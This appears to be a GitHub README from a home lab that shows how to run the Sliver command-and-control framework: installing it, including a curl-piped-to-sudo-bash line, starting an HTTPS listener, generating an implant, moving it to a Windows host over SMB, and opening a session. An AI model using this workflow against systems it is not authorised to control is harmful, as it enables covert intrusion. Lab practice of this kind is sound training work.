






<h1>Using Sliver</h1>

<h2>Description</h2>
Sliver is a free to use Command and Control (C2) Framework designed to provide advanced capabilities for covertly managing and controlling remote systems. Find out more at the official Sliver C2 site (https://sliver.sh/)
<br />


<h2>Languages and Utilities Used</h2>
 
- <b>Kali Linux</b>
- <b>Sliver</b>

<h2>Environments Used </h2>

- <b>Windows 10</b>
- <b>Ubuntu Server</b>

<h3>Installation</h3>
  - <b>Sliver can be installed using the following command <i>sudo apt install sliver</i></b><br />
  - <b>It can also be isntalled using the following: curl https://sliver.sh/install | sudo bash (Not Recommended)</b></br />

<h3>Running Sliver</h3>
After installing Sliver, you can run sliver-server just be running the <i>sliver</i> command. Alternatively, you can run the sliver client with the <i>sliver-client</i> command:<br />
<p align="center">
  
  
</p>
<br />
Now in our sliver-client window we can start an https listener by using the https command. We can confirm that it is listening by using the jobs command:<br />
<p align="center">
  
</p>
<br />
Next, we'll generate an implant using the following command:<i>generate --http <LISTENER_IPADDRESS></i>. This will generate an implant that will be hosted on our HTTPS listener:
<p align="center">
  
</p>
 <br />
Now we need a method of transferring the implant to the target host. For the sake of simplicity I'll use SMB to transfer the file:
<p align="center">
  
  
</p>
<br />
Now we can execute the payload and get an active session, that we can interact with, on our sliver client:
<p align="center">
  
  
</p>
<br />


 
<!--
 ```diff
- text in red
+ text in green
! text in orange
# text in gray
@@ text in purple (and bold)@@
```
--!>
